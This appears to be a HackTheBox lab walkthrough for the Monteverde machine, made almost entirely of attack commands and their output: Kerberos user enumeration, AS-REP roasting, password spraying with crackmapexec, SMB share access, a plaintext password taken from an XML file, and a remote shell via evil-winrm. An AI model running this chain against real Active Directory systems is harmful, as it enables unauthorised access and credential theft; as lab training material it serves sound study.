 
Valid Users
```
kerbrute userenum -d MEGABANK --dc 10.10.10.172 valid_user.txt -t 100
```
![[Pasted image 20240503124645.png]]

```
svc-bexec@MEGABANK
svc-ata@MEGABANK
roleary@MEGABANK
SABatchJobs@MEGABANK
svc-netapp@MEGABANK
smorgan@MEGABANK
administrator@MEGABANK
```


```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```
![[Pasted image 20240503124918.png]]

```
smorgan
Administrator
krbtgt
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
Guest
Administrator
AAD_987d7f2f57d2
mhope
dgalanos
Administrator
roleary
```

Valid Users
```
|   |
|---|
|Administrator@MEGABANK|
|svc-bexec@MEGABANK|
|roleary@MEGABANK|
|SABatchJobs@MEGABANK|
|mhope@MEGABANK|
|smorgan@MEGABANK|
|svc-netapp@MEGABANK|
|AAD_987d7f2f57d2@MEGABANK|
|SABatchJobs@MEGABANK|
|dgalanos@MEGABANK|
|svc-ata@MEGABANK|
```


```
crackmapexec smb 10.10.10.172 -u ~root/HackTheBox/Monterverde/password.txt -p ~root/HackTheBox/Monterverde/password.txt 
```

```
MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```
![[Pasted image 20240503175616.png]]


Let's check SMB access
```
crackmapexec smb 10.10.10.172 -u SABatchJobs -p SABatchJobs --shares
```

```
smbmap -u SABatchJobs -d MEGABANK.LOCAL -p 'SABatchJobs' -H 10.10.10.172
```
![[Pasted image 20240503180348.png]]

```
smbclient //10.10.10.172/users$ -U 'SABatchJobs' --password 'SABatchJobs'
```
![[Pasted image 20240503180623.png]]

When we open the file the XML file
![[Pasted image 20240503181028.png]]
```
4n0therD4y@n0th3r$
```


```
crackmapexec smb 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' --shares
```
![[Pasted image 20240503181245.png]]

```
evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172
```

So finally we got the shell
![[Pasted image 20240503181643.png]]


```
d2101a768fb7f09c6b6fb7d728f911fa
```
![[Pasted image 20240503181747.png]]

